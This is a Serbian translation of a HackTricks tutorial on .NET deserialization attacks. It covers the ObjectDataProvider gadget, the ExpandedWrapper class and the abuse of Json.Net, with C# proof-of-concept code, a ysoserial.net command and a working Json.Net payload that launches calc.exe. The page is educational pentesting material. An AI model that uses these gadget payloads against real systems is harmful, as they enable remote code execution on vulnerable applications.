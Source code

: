 # Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

Ovaj post je posvećen **razumevanju kako se koristi gadget ObjectDataProvider** za dobijanje RCE-a i **kako se mogu zloupotrebiti** biblioteke za serijalizaciju **Json.Net i xmlSerializer** sa tim gadgetom.

## ObjectDataProvider Gadget

Iz dokumentacije: _klasa ObjectDataProvider omotava i kreira objekat koji možete koristiti kao izvor za vezivanje_.\
Da, to je čudno objašnjenje, pa hajde da vidimo šta ova klasa ima što je tako interesantno: Ova klasa omogućava da **omotate proizvoljni objekat**, koristite _**MethodParameters**_ da **postavite proizvoljne parametre**, a zatim **koristite MethodName da pozovete proizvoljnu funkciju** proizvoljnog objekta deklarisanog koristeći proizvoljne parametre.\
Dakle, proizvoljni **objekat** će **izvršiti** funkciju sa **parametrima dok se deserijalizuje**.

### **Kako je ovo moguće**

Namespace **System.Windows.Data**, koji se nalazi unutar **PresentationFramework.dll** na putanji `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF`, je gde je definisan i implementiran ObjectDataProvider.

Koristeći [**dnSpy**](https://github.com/0xd4d/dnSpy) možete **pregledati kod** klase koja nas zanima. Na slici ispod vidimo kod **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Method name**

![](<../../.gitbook/assets/image (299).png>)

Kao što možete primetiti, kada se postavi `MethodName`, poziva se `base.Refresh()`, hajde da vidimo šta ona radi:

![](<../../.gitbook/assets/image (300).png>)

Ok, nastavimo da vidimo šta radi `this.BeginQuery()`. `BeginQuery` je preklopljen od strane `ObjectDataProvider` i evo šta on radi:

![](<../../.gitbook/assets/image (301).png>)

Primetite da na kraju koda se poziva `this.QueryWorke(null)`. Hajde da vidimo šta ta funkcija izvršava:

![](<../../.gitbook/assets/image (302) (1).png>)

Primetite da ovo nije ceo kod funkcije `QueryWorker`, ali prikazuje interesantan deo: Kod **poziva `this.InvokeMethodOnInstance(out ex);`** ovo je linija gde se **poziva postavljena metoda**.

Ako želite da proverite da li će se izvršiti samo postavljanjem _**MethodName**_, možete pokrenuti ovaj kod:

```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectType = typeof(Process);
myODP.MethodParameters.Add("cmd.exe");
myODP.MethodParameters.Add("/c calc.exe");
myODP.MethodName = "Start";
}
}
}
```

Napomena da morate dodati kao referencu _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ kako biste učitali `System.Windows.Data`

## ExpandedWrapper

Korišćenjem prethodnog napada, postojaće slučajevi kada će se **objekat** deserijalizovati kao instanca _**ObjectDataProvider**_ (na primer u DotNetNuke ranjivosti, koristeći XmlSerializer, objekat je deserijalizovan koristeći `GetType`). Tada nećemo imati **informaciju o tipu objekta koji je zapakovan** u instancu _ObjectDataProvider_ (`Process` na primer). Više informacija o DotNetNuke ranjivosti možete pronaći [ovde](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1).

Ova klasa omogućava da se **specifikuju tipovi objekata koji su zapakovani** u datoj instanci. Dakle, ova klasa se može koristiti da se izvor objekta (_ObjectDataProvider_) zapakuje u novi tip objekta i obezbedi potrebna svojstva (_ObjectDataProvider.MethodName_ i _ObjectDataProvider.MethodParameters_).\
Ovo je veoma korisno za slučajeve kao što je prethodno prikazani, jer ćemo moći da **zapakujemo \_ObjectDataProvider**_\*\* unutar instance \*\*_**ExpandedWrapper** \_ i **prilikom deserijalizacije** ova klasa će **kreirati** objekat _**OjectDataProvider**_ koji će **izvršiti** funkciju koja je naznačena u _**MethodName**_.

Možete proveriti ovaj omotač pomoću sledećeg koda:

```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
myExpWrap.ProjectedProperty0.MethodName = "Start";
}
}
}
```

## Json.Net

Na [zvaničnoj veb stranici](https://www.newtonsoft.com/json) se navodi da ova biblioteka omogućava **serijalizaciju i deserijalizaciju bilo kog .NET objekta pomoću snažnog JSON serializer-a Json.NET**. Dakle, ako bismo mogli **deserijalizovati ObjectDataProvider gadget**, mogli bismo izazvati **RCE** samo deserijalizacijom objekta.

### Primer Json.Net

Prvo, pogledajmo primer kako **serijalizovati/deserijalizovati** objekat koristeći ovu biblioteku:

```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
public class Account
{
public string Email { get; set; }
public bool Active { get; set; }
public DateTime CreatedDate { get; set; }
public IList<string> Roles { get; set; }
}
class Program
{
static void Main(string[] args)
{
Account account = new Account
{
Email = "james@example.com",
Active = true,
CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
Roles = new List<string>
{
"User",
"Admin"
}
};
//Serialize the object and print it
string json = JsonConvert.SerializeObject(account);
Console.WriteLine(json);
//{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}

//Deserialize it
Account desaccount = JsonConvert.DeserializeObject<Account>(json);
Console.WriteLine(desaccount.Email);
}
}
}
```

### Zloupotreba Json.Net

Koristeći [ysoserial.net](https://github.com/pwntester/ysoserial.net) kreirao sam eksploit:

```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

U ovom kodu možete **testirati eksploit**, samo ga pokrenite i videćete da se izvršava kalkulator:

```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
class Program
{
static void Main(string[] args)
{
//Declare exploit
string userdata = @"{
'$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
'MethodName':'Start',
'MethodParameters':{
'$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
'$values':['cmd', '/c calc.exe']
},
'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}";
//Exploit to base64
string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

//Get data from base64
byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
//Deserialize data
string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
}
}
}
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite vašu **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

